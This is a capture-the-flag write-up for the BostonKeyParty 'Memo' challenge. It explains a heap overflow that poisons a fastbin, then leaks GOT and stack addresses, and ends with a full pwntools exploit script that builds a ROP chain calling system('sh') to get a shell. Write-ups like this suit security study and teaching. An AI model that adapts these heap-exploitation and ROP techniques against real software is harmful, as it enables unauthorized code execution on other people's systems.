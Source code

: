 ```yaml
---
layout: post
comments: true
title: Memo - BostonKeyParty (300 pts)
---
```

This challenge is a prequel to the BookWriter challenge on [pwnable.tw](pwnable.tw) .

Challenge has no PIE but full RELRO which means either exploit a hook function or the return address.

Heap overflow allows us to overwrite fd of fastbin. In order to allocate it somewhere without malloc errors popping up, create
a fake chunk in the Data Section (which is not randomised). Use the password to create a fake chunk of size 0x31, set the
appropiate next fastbin size and then make fd point there. Then overwrite one of the heap pointers to GOt address.

Leak Got address. Running the vulnerability multiple times is vital. So, overwrite one heap pointer with the address of the fake
chunk which we just allocated. This is so that we can free it easily and then once again malloc() it on the data section. We need
to manually provide the pointer since for size > 32, program does not write the returned heap ptr to index.

Overwrite with stack address, get stack leak. Point to RBP and then call the edit function. Pass in a pop rdi gadget with address
of "sh" string (find in libc) followed by system address.

```python
#!/usr/bin/python
from pwn import *

p = process("./memo")

def leak(idx):
	p.recvuntil(">>")
	p.sendline("3")
	p.recvuntil("Index:")
	p.sendline(str(idx))
	p.recvuntil("View Message:")
	leak_1 = p.recvuntil("1.")
	b = leak_1.split()
	c = b[0] + "\x00"*2
	print hex(u64(c))
	return u64(c)
	
	

def leave_note(idx,length,name):
	p.recvuntil(">>")
	p.sendline("1")
	p.recvuntil("Index:")
	p.sendline(str(idx))
	p.recvuntil("Length:")
	p.sendline(str(length))
	p.recvuntil("Message:")
	p.sendline(name)

def delete_note(idx):
	p.recvuntil(">>")
	p.sendline("4")
	p.recvuntil("Index:")
	p.sendline(str(idx))
	p.recvuntil("Deleted!")

def view_note(idx):
	p.recvuntil(">>")
	p.sendline("3")
	p.sendline(str(idx))


p.sendline("A")
p.recvuntil("(y/n)")
p.sendline("y")
p.recvuntil("Password:")
buff = "\x00"*8
buff += "\x31"
buff += "\x00"*15
p.sendline(buff)

lol = "B"*8
leave_note(0,32,lol)
leave_note(1,32,lol)
leave_note(2,32,lol)
#leave_note(3,32,lol)
delete_note(2)
delete_note(1)
delete_note(0)

payload = "D"*40
payload += "\x31"
payload += "\x00"*7
payload += p64(0x602a40)

p.recvuntil(">>")
p.sendline("1")
p.recvuntil("Index:")
p.sendline(str(0))
p.recvuntil("Length:")
p.sendline(str(200))
p.recvuntil("memo though")
p.sendline(payload)


leave_note(0,32,lol)
payload = "X"*16
payload += "\x20\x00\x00\x00\x20\x00\x00\x00"*2
got_addr = 0x601ff0
payload += p64(got_addr)
payload += p64(0x31)
payload += p64(0x602a50)
payload += p64(0x00)*1

# To get stack leak, put 0x602aa0.

print p.recvuntil(">>")
p.sendline("1")
print p.recvuntil("Index:")
p.sendline(str(1))
print p.recvuntil("Length:")
p.sendline(str(200))
p.recvuntil("memo though")
p.sendline(payload)

libc_leak = leak(0)
system_addr = libc_leak + 0xe510
print "System at " + hex(system_addr)
delete_note(2)

p.recvuntil(">>")
p.sendline("1")
p.recvuntil("Index:")
p.sendline(str(2))
p.recvuntil("Length:")
p.sendline(str(200))
p.recvuntil("memo though")

payload = "X"*16
payload += "\x20\x00\x00\x00\x20\x00\x00\x00"*2
stack_addr = 0x602aa0
payload += p64(stack_addr)
payload += p64(0x31)
payload += p64(0x602a50)
payload += p64(0x00)*1

p.sendline(payload)
stack_lk = leak(0) + 0x18
print "RBP at " + hex(stack_lk)


delete_note(2)

p.recvuntil(">>")
p.sendline("1")
p.recvuntil("Index:")
p.sendline(str(2))
p.recvuntil("Length:")
p.sendline(str(200))
p.recvuntil("memo though")

payload = "X"*16
payload += "\x20\x00\x00\x00\x20\x00\x00\x00"*2
stack_addr = stack_lk
payload += p64(stack_addr)
payload += p64(0x31)
payload += p64(stack_addr)
p.sendline(payload)

# Edit Frame.
# 0x0000000000401263 --> pop rdi; ret.

print p.recvuntil(">>")
p.sendline("2")
print p.recvuntil("Edit message:")
payload = p64(0x401263)
#payload += p64(0x0000000000401263)
sh_string = system_addr + 0x3a52ac
payload += p64(sh_string)
payload += p64(system_addr)
raw_input()
p.sendline(payload)


p.interactive()

```
